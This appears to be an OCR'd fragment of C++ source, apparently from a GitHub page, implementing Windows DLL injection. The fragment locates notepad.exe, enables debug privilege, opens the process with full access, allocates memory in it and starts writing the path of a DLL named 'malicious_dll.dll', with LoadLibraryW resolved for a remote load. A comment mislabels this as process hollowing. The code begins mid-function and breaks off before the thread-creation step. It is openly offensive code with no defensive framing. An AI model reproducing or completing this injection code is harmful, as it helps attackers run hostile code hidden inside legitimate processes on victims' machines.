 ```cpp
    return TRUE;
}

DWORD FindTargetProcessId(const wchar_t* processName) {
    PROCESSENTRY32W processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32W);

    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        return 0;
    }

    if (Process32FirstW(hSnapshot, &processEntry)) {
        do {
            if (wcscmp(processEntry.szExeFile, processName) == 0) {
                CloseHandle(hSnapshot);
                return processEntry.th32ProcessID;
            }
        } while (Process32NextW(hSnapshot, &processEntry));
    }

    CloseHandle(hSnapshot);
    return 0;
}

int main() {
    const wchar_t* targetProcessName = L"notepad.exe"; // Process to hollow
    const wchar_t* dllPath = L"malicious_dll.dll"; // Path to DLL to inject

    DWORD targetPid = FindTargetProcessId(targetProcessName);
    if (targetPid == 0) {
        std::cerr << "Target process not found." << std::endl;
        return 1;
    }

    HANDLE hToken;
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
        SetPrivilege(hToken, SE_DEBUG_NAME, TRUE);
        CloseHandle(hToken);
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPid);
    if (hProcess == NULL) {
        std::cerr << "OpenProcess failed." << std::endl;
        return 1;
    }

    HANDLE hThread = NULL;
    LPVOID pRemoteImage = NULL;

    HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
    LPVOID pLoadLibraryW = (LPVOID)GetProcAddress(hKernel32, "LoadLibraryW");

    pRemoteImage = VirtualAllocEx(hProcess, NULL, (wcslen(dllPath) + 1) * sizeof(wchar_t), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pRemoteImage == NULL) {
        std::cerr << "VirtualAllocEx failed." << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    if (!WriteProcessMemory(hProcess, pRemoteImage, (LPVOID)dllPath, (wcslen(dllPath) + 1) * sizeof(wchar_t), NULL)) {
```
